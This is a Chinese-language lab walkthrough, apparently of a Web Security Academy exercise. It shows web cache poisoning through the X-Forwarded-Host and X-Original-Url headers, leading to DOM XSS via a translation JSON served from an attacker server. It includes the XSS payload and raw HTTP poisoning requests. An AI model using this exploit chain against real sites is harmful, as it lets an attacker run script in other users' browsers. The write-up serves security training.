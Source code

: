 挖掘到两个隐藏参数

一个 x-original-url 另一个 x-forwarded-host 。  

 x-forwarded-host 请求头的内容将放在 js 代码的 data 集的 host 变量里。

![image-20250421190144742](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250421190144742.png)

```js
function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)			// 这个参数将传入 data 集，也就是我们能通过修改 x-forwarded-host 请求头，控制网站从哪个站点接口获取翻译数据。
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {		// 遍历 select 元素，如果 cookie 中的 lang 与其某个元素相等，将其设为选中状态
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }
			// 如果存在选中状态的元素，那么就启动翻译功能，翻译为选定元素对应的语言
            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}
```

```
# 之前我们说过，网站获取翻译数据的站点我们可以控制，那么在攻击者页面上部署如下存在 xss 的数据：
   {
   "cn": {
        "name": "中文",
        "translations": {
            "Return to list": "返回清單",
            "View details": "<img src=x onerror=alert(1)>",
            "Description:": "描述:"
        }
    }
    }
# 当网站从攻击者页面获取数据翻译并渲染到页面上时，直接出发 dom xss。
```

发送请求，进行让其翻译成中文，导致 dom xss ：Cookie: session=zKfxCzyta2bOxUkBWvC41ob0UscvCYBP; lang=cn

![image-20250421195052529](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250421195052529.png)

多次发送请求使得缓存中毒。

![image-20250421194612783](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250421194612783.png)

至此我们可以以相同的方式污染除 en 意外其他语言的用户，这是因为 en 是默认的，不需要通过获取数据进行渲染。

### X-Original-Url 的重定向功能

![image-20250421201420732](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250421201420732.png)

发现 X-Original-Url 能进行重定向，重定向 url = Host 请求头 + X-Original-Url 页面 + 参数。

英语用户无法投毒，因为如下判断，只要 Cookie == en，就不进行翻译文本替换。

```
if (lang in j && lang.toLowerCase() !== 'en' && j[lang].translations) {
                // 应用翻译到主容器及其子元素
                translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
}
```

但可以将英语用户重定向到其他语言页面，当访问 /setlang/es 发现能忽略 Cookie 中的 lang 而利用 lang=es 的 Cookie 进行重定向。

![image-20250421200841523](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92/images/image-20250421200841523.png)

所以使用 X-Original-Url 投毒，将 lang=en 的用户重定向到其他语言的页面从而返回 Web 中毒缓存。

### 两次中毒

首先对 lang=cn 的用户进行投毒，让其返回恶意响应。

```
GET / HTTP/2
Host: 0aaf007a0346337180ee08e40066008b.web-security-academy.net
Cookie: session=zKfxCzyta2bOxUkBWvC41ob0UscvCYBJ; lang=cn
X-Forwarded-Host: exploit-0a0f005803433315800407f601220078.exploit-server.net
```

其次对 lang=en 的用户进行投毒，让其重定向 lang=cn 页面以至于触发获取 lang=cn 语言数据并渲染。

```
GET / HTTP/2
Host: 0aaf007a0346337180ee08e40066008b.web-security-academy.net
Cookie: session=zKfxCzyta2bOxUkBWvC41ob0UscvCYBP; lang=en
X-Original-Url: /setlang\cn
```

这两次中毒一配合，en 用户可以访问其他遭受中毒攻击的 cn 语言页面。